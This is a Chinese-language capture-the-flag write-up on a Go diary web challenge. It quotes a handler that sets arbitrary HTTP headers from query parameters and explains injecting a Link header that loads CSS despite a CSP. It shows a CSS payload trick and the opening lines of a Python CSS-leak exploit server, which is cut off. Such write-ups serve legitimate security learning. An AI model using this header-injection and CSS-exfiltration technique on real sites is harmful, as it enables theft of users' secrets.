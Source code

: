 实现了以下功能：

1. 添加中间件，无cookie会自动生成
2. 会根据k,v来设置http头
3. 运行代码的时候会初始化flag到某一篇文章
4. 写日记，查看日记（只要有日记id就行），自己的日记列表，让管理员访问该网站下的某个网页



漏洞点很简单：

```go
		k := c.Query("k")
		v := c.Query("v")
		if matched, err := regexp.MatchString("^[a-zA-Z-]+$", k); matched && err == nil && v != "" {
			c.Header(k, v)
		}
```

刚好之前看到过一篇有意思的文章，了解到了通过http头(link)来设置css脚本，原本也想拿去出一题css-leak的但是直接出的话太简单了

这个题就比较有意思了

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Link

通过设置Link头来插入css脚本

`Link: <url here>; rel="stylesheet"; type="text/css" `

但是有个问题题目有csp

`script-src 'self'; style-src 'self'; base-uri 'none'`

在旧版的ff中这个csp对link头并没有生效

但是题目用的是最新版的ff

于是需要用报错或者note来作为payload的负载

找报错找了半天没找到

比赛的时候note我只是简单试了以下（连note里双引号会被转义都没发现，错过了一个flag

但是就算note部分可控，好像在解析到我们的payload之前可能就会被浏览器因为语法错误而停止解析，

赛后了解到，通过这样的payload让note能够正常解析

```css
RANDOM CONTENT
{} * {color:red;}
RANDOM CONTENT
```

个人觉得这是因为加上了{}让浏览器以为是selector从而继续解析？

在chrome上也是可以这样的，如果有人知道原因恳请告诉我呜呜呜

直接贴上wp的exp

```python
from flask import Flask, request
import requests
import urllib.parse
import string

TARGET_BASE = "http://localhost:8888"

LEAK_LENGTH = 10
CHAR_CANDIDATES = string.ascii_letters + string.digits

EXPLOIT_BASE_ADDR = "http://host.docker.internal:1337"
app = Flask(__name__)
s = requests.Session()
s.proxies = {
```